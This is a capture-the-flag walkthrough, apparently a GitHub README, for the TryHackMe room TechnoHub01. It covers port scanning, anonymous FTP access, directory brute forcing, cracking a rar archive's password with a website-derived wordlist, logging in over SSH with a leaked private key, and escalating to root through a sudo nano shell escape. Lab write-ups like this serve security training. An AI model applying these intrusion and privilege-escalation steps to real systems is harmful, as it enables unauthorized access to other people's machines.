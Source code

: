
# TechnoHub01
## This writeup is about the [Try Hack Me](https://tryhackme.com) machine [TechnoHub01](https://tryhackme.com/room/technohub01)

Room: https://tryhackme.com/room/technohub01

![image](https://github.com/user-attachments/assets/8074def3-dbc7-4085-b876-ae3c909806cb)


## after starting the machine 1st step will be the network enumeration

```
rustscan -a 10.10.89.166
```

![image](https://github.com/user-attachments/assets/6d4d1da4-aec7-4187-b499-229b0a96a112)


## We can notice that we have three open ports:

### *Port 21 FTP* ###

### *Port 22 SSH* ###

### *Port 80 HTTP* ###

I would try to test ftp for anonymous access

```
nmap 10.10.89.166 -p 21 --script ftp-anon
```

![image](https://github.com/user-attachments/assets/3feced8a-faa5-4ac0-8527-e3964c88810c)



**It allow anonymous access**


![image](https://github.com/user-attachments/assets/c6060fda-da50-4a5c-8120-3cf814954b6d)


We get two documents, a note and a pcap traffic capture, which would be interesting, so let's download them.

```
mget *
```

lets examine what we get


![image](https://github.com/user-attachments/assets/c30f02b7-7315-43c8-8342-6316b7450f96)

It is a note from the CFO to Hana, and it sounds like Hana is in the managerial position of the SOC team.
Also, we have a higher-level manager, Miss Yassmin.
After a long time examination of the pcap file, it is a rabbit hole.

![image](https://github.com/user-attachments/assets/10c2fbfd-123c-4958-b25e-b2b7379f1768)


## Now, we are done with the FTP. The information we get is:

### *1- the CFO is Asser Mahmoud* ###

### *2- Technical manager Haman* ###
### *3- Miss Yassmin, the Higher manager* ###



**Now, it's time to try the next port/service. Port 80**

First, let's check the website.


![image](https://github.com/user-attachments/assets/b47967eb-5076-41d3-8cea-e41a040591bb)

We have five pages [**Home**, **Sales**, **Maintenance Service**, **Contact Us**, and **Our Team**].

Going through the different pages, nothing interesting else:

The **Contact Us** page has an [Email address](mailto:technohubwrx@gmail.com), [YouTube channel handle](https://www.youtube.com/@techno_hub), and [Instagram handle](https://www.instagram.com/technohubrwx).

On the **Our Team** page, we get information about the team.


### *CEO: Yassmin Hamdy* ###
### *Email: yhamdy@technohub* ###

### *CFO: Asser Mahmoud* ###
### *Email: amahmoud@technohub* ###

### *CTO: Hana Neana* ###
### *Email: hneana@technohub* ###

on the other-hand directory, brute forcing reviles unlinked directory **backup**

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.89.166/FUZZ
```

![image](https://github.com/user-attachments/assets/c26faade-bd5e-4d93-bec2-0ca413454dd0)

So, let's go inside this directory.

*Oh, We get a backup rar file.*

![image](https://github.com/user-attachments/assets/b436f89e-5bf8-4503-916b-c2c2c27faf56)


```
curl http://10.10.89.166/backup/TechnoHub.rar -o TechnoHub.rar
```


But it's password protected, so we need to crack the password. We will use **JTR** to get the password hash.


```
rar2john TechnoHub.rar >hash.txt
```


The password is not in rockyou.txt, but scrapping the website would be helpful sometimes.

```
cewl http://10.10.89.166 > list.txt
```

Now it is time to crack something 😉

```
john --wordlist=list.txt hash.txt
```

![image](https://github.com/user-attachments/assets/8d830c17-028b-4661-ab27-677a3f87b663)

After extracting the file with the discovered password, we now have the server backup, including an OpenSSH private key.

![image](https://github.com/user-attachments/assets/b6d8e5d1-879d-498b-9ab1-7db285d8b8cd)

![image](https://github.com/user-attachments/assets/786647c0-b933-42b8-8c8d-70b297850a64)


All that we need to do is to set it private and connect to the 3rd open port we have on the machine, port 22 (SSH)

```
chmod 600 id_ed25519
```

Remember, we get three users on the company from the website.


### *CEO: Yassmin Hamdy* ###
### *Email: yhamdy@technohub* ###

### *CFO: Asser Mahmoud* ###
### *Email: amahmoud@technohub* ###

### *CTO: Hana Neana* ###
### *Email: hneana@technohub* ###

Because this SSH key is in the backup, it might be reasonable to assume it belongs to a technical user. We only have the CTO account, **Henneana**.

```
ssh -i id_ed25519 -l hneana 10.10.89.166
```
### Now we get our initial access to the *TechnoHub* machine.

![image](https://github.com/user-attachments/assets/882b648b-d3a3-420e-86e9-82d2eb2e15c7)


Inside, we can find the user.txt file (this is the 1st flag)

```
drwxr-x--- 5 hneana hneana 4096 Apr  9 23:55 .
drwxr-xr-x 6 root   root   4096 Apr  9 23:38 ..
lrwxrwxrwx 1 hneana hneana    9 Apr  9 22:58 .bash_history -> /dev/null
-rw-r--r-- 1 hneana hneana  220 Apr  9 20:14 .bash_logout
-rw-r--r-- 1 hneana hneana 3797 Apr  9 22:54 .bashrc
drwx------ 2 hneana hneana 4096 Apr  9 22:38 .cache
drwxrwxr-x 3 hneana hneana 4096 Apr  9 20:25 .local
-rw-r--r-- 1 hneana hneana  807 Apr  9 20:14 .profile
drwx------ 2 hneana hneana 4096 Apr  9 22:52 .ssh
-rw-rw-r-- 1 hneana hneana   33 Apr  9 20:28 user.txt
```

## enumerating the user *hneana*:


![image](https://github.com/user-attachments/assets/ab85e9cf-f878-4406-9434-e83f9801cd65)

She can run **nano** with sudo permission; now it is time for [gtfobins](https://gtfobins.github.io/)

![image](https://github.com/user-attachments/assets/6964c0be-da13-41e1-ba96-92c5c0d50c66)


```
sudo nano

^R^X

reset; sh 1>&0 2>&0
```


And now we get **root** access.

```
# whoami
root
# ls -al /root
total 36
drwx------  5 root root 4096 Apr  9 20:12 .
drwxr-xr-x 20 root root 4096 Apr  9 19:57 ..
-rw-------  1 root root 3651 Apr  9 23:55 .bash_history
-rw-r--r--  1 root root 3106 Oct  7  2024 .bashrc
drwx------  3 root root 4096 Apr  9 20:09 .cache
drwxr-xr-x  3 root root 4096 Apr  9 20:09 .local
-rw-r--r--  1 root root  161 Oct  7  2024 .profile
drwx------  2 root root 4096 Apr  9 20:08 .ssh
-rw-r--r--  1 root root   33 Apr  9 20:12 root.txt
# cat /root/root.txt
```


# This was the walkthrough for the *TechnoHub* 1st CTF machine.

